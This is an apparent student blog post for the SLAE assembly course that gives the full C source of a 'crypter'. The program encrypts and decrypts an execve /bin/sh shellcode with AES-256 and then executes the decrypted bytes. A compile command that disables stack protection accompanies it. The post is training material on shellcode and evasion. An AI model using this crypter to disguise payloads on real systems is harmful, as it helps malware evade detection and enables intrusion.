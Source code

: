 ```yaml
---
comments: true
date: 2014-05-12
layout: post
title: 'SLAE Assignment 7: Custom Crypter'
subtitle: 'This is the last assignment for the SLAE'
---
```


This is the last assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

	
  1. Create a custom crypter like the one shown in "crypters" video

  2. Free to use any existing encryption schema
	
  3. Can use any programming language

I chose to use C and libgcrypt for this task.

Here is the source code for the encryption and decryption:

	//Description:	Assignment #7 (PoC of Crypter using AES-256)
	//Author:		Paolo Stivanin <https://github.com/paolostivanin>
	//SLAE ID:		526

	#include <stdio.h>
	#include <string.h>
	#include <gcrypt.h>
	#include <stdint.h>
	
	#define ENC 1

	static void crypt(int, size_t, uint8_t *);

	uint8_t origShell[] = "\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68";

	#if !ENC
		uint8_t encShell[] = "";
	#endif

	uint8_t iv[] = {0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x04};
	uint8_t ctr[] = {0x02,0x04,0x01,0x01,0x02,0x09,0xf1,0xc2,0x03,0x01,0x02,0xdd,0xec,0x02,0x03,0x04};
	const char *key = "securitytubeSLAE";

	int
	main (void)
	{
		int i, ag = gcry_cipher_map_name("aes256");
		size_t ln = strlen(origShell);
		uint8_t *buf = malloc(ln);

		crypt(ag, ln, buf);
		#if ENC
			for(i=0; i<ln; i++){
				printf("\\x%02x", buf[i]);
			}
			printf("\n");
		#else
			int (*ret)() = (int(*)())buf;
			ret();
		#endif

		free(buf);

		return 0;
	}

	static void
	crypt(  int algo,
			size_t len,
			uint8_t *buf)
	{
		gcry_cipher_hd_t hd;
		gcry_cipher_open(&hd, algo, GCRY_CIPHER_MODE_CTR, 0);
		gcry_cipher_setkey(hd, key, 16);
		gcry_cipher_setiv(hd, iv, 16);
		gcry_cipher_setctr(hd, ctr, 16);
		#if ENC
			gcry_cipher_encrypt(hd, buf, len, origShell, len);
		#else
			gcry_cipher_decrypt(hd, buf, len, encShell, len);
		#endif
		gcry_cipher_close(hd);
	}

I chose to use AES-256 to encrypt the shellcode (origShell , it contains the shellcode execve(/bin/sh, NULL, NULL) ). You can customize the encryption data by changing the iv , ctr  and key .

If you want to decrypt and run the shellcode you only need to change `#define ENC 1`  to `#define ENC 0` and then write the encrypted shellcode inside encShell .

To compile the above source I used this command:

```
gcc PoC_Crypter.c -o crypter -lgcrypt -fno-stack-protector -z execstack
```

This is all for this assignment and also for the SLAE certification. It was very interesting and funny to dive into the art of shellcoding and reversing, I enjoyed a lot this course, thanks SecurityTube :-)

All the sources can be found in my [Github page](https://github.com/paolostivanin/SLAE/).


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

**Student ID: SLAE-526**
